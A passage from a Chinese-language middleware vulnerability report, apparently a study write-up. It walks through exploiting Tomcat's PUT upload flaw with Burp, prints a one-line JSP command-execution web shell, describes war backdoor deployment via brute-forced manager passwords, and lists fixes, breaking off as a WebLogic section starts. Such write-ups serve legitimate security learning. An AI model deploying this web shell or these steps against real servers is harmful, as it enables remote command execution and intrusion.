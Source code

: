 4. 访问127.0.0.1：8080，burp抓包，send to Repeater，将请求方式改为PUT，创建一个122.jsp，并用%20转义空格字符。123.jsp内容为：`<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>`
     返回201，说明创建成功。

      ![img](中间件漏洞总结报告.assets/4-22.png)

5. 访问`127.0.0.1：8080/122.jsp?cmd=calc`，弹出计算器

**修复**

- 检测当前版本是否在影响范围内，并禁用PUT方法。

- 更新并升级至最新版。

### 2.war后门文件部署

**成因**

Tomcat 支持在后台部署war文件，可以直接将`webshell`部署到web目录下。

若后台管理页面存在弱口令，则可以通过爆破获取密码。

**修复**

- 在系统上以低权限运行Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）。
- 增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在`CATALINA_HOME/conf/web.xml`文件设置锁定机制和时间超时限制。
- 以及针对`manager-gui/manager-status/manager-script`等目录页面设置最小权限访问限制。
- 后台管理避免弱口令。

## WebLogic漏洞分析

- WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。


### 1.反序列化漏洞
